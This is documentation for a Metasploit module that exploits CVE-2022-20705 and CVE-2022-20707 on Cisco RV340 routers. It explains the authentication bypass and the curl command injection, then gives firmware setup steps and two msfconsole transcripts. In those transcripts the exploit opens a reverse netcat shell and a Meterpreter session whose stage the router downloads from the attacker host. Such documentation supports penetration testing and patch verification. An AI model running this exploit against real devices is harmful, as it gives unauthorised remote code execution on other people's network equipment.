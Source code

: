 ## Vulnerable Application

This module exploits two vulnerabilities, an authentication bypass (CVE-2022-20705) and a command injection vulnerability (CVE-2022-20707),
to execute code on Cisco RV340x Small Business Routers as the `www-data` user. The command injection occurs in the `upload.cgi` script,
where user input is passed to `curl` without any sanitization. Additionally, the `sessionid` session cookie can be abused for a path
traversal vulnerability, which can be used to bypass authentication by checking for a valid file in the session ID field.

Vulnerable up to, and tested against, firmware version 1.0.03.24. Version 1.0.03.26 removes these vulnerabilities.

### Installation

Firmware version 1.0.03.24, which is vulnerable to CVE-2022-20705 and CVE-2022-20707, can be downloaded from
https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.24

To install this firmware, follow the following directions:
1. Log into the modem. The default IP address is 192.168.1.1 and the default credentials
   are `cisco` for the username and password.  
2. The `administration` option on the left side of the web page will take you to a form 
   with a `Manual Upgrade` section.
3. Leave `File Type: ` on the default `Firmware Image` option.  
4. Change `Upgrade From:` option to `PC`. 
5. Press the `Upgrade` button.
6. Press `Yes` on the message box asking `Are you sure you want to upgrade the firmware right now?`.  
7. Wait for router reboot to complete.

## Verification Steps

1. Install the vulnerable firmware
2. Start `msfconsole`
3. Do: `use modules/exploits/linux/http/cisco_rv340_lan`
4. Do: `set lhost <listening ip>`
5. Do: `set rhost <target ip>`
6. Do: `exploit`
7. Verify: You see the message `Exploit successfully executed` confirming the exploit completed
8. Verify: You are the `www-data` user using the `id` command

## Options

## Scenarios

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_netcat payload

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.142:4444 -> 192.168.1.1:55885) at 2023-02-05 10:06:22 -0500
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_tcp ARMLE Meterpreter payload

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > set target 1
target => 1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.142:8080/3b2NfBKR0OS
[*] Client 192.168.1.1 (Wget) requested /3b2NfBKR0OS
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (934728 bytes) to 192.168.1.1
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 2 opened (192.168.1.142:4444 -> 192.168.1.1:55950) at 2023-02-05 10:12:37 -0500
[*] Server stopped.

meterpreter > shell
Process 11012 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
